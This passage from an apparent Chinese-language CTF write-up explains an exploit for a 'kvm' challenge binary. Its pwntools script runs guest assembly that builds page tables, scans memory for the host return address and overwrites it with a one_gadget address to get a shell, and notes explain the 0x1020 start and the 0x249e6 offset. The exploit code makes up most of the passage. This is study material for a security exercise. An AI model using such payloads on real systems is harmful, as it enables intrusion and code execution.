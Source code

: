 所以我们的shellcode就需要确保经过转换后的地址对应着的是返回地址，然后把返回地址改成oengadget就可以拿到shell了。

exp最开始设置访问的地址是0x1020，然后一直循环访问到对应地址存储的内容不是0的地方，经过动调发现在retun的返回地址前只有3个地址是有内容的，再往前看都是0，所以循环结束后访问的地址就是return的返回地址-3，所以要修改retuen的地址就需要+3，然后把这个地址里面的内容修改成one_gadget就可以拿到shell了。

```python
from pwn import *
context.arch = 'amd64'
p = process("./kvm")
elf = ELF("./kvm")
payload = asm(
    """
    mov qword ptr [0x1000], 0x2003
    mov qword ptr [0x2000], 0x3003
    mov qword ptr [0x3000], 0x0003
    mov qword ptr [0x0], 0x3
    mov qword ptr [0x8], 0x7003

    mov rax, 0x1000
    mov cr3, rax

    mov rcx, 0x1020
#############search ret#############
look_for_ra:   
    add rcx, 8
    cmp qword ptr [rcx], 0
    je look_for_ra

    add rcx, 24
#############overwrite ret#############
overwrite_ra:  
    mov rax, qword ptr [rcx]
    add rax, 0x249e6
    mov qword ptr [rcx], rax
    hlt
    """
)
log.success('len = '+str(len(payload)))
p.send("\x68\x00\x00\x00")
p.sendline(payload)
#gdb.attach(p)
p.recv(16)
#gdb.attach(p)
p.interactive()
```

对于exp几个疑惑的点：

- 0x1020 ：这里我本来写的是0x1000，但是没打通，在0x7000开始处我们写了四个字段，所以我们应该先跳过这四个字段开始，经过动态调试发现返回地址只有前面三个字段有内容，其他都是0，所以一次遍历到不为0为止，然后我们add 24，跳过这三个字段就能到达ret处。

  ![image-20200925232304528.png](https://i.loli.net/2020/09/25/tph8ysFVoinqW1f.png)

- 0x249e6 : 这里是返回地址到one_gadget地址的偏移，动态调试后发现execve_addr-ret_addr=0x249e6。

成功利用截图：

![image-20200925232856994.png](https://i.loli.net/2020/09/25/T2rDMolGOvBZkJI.png)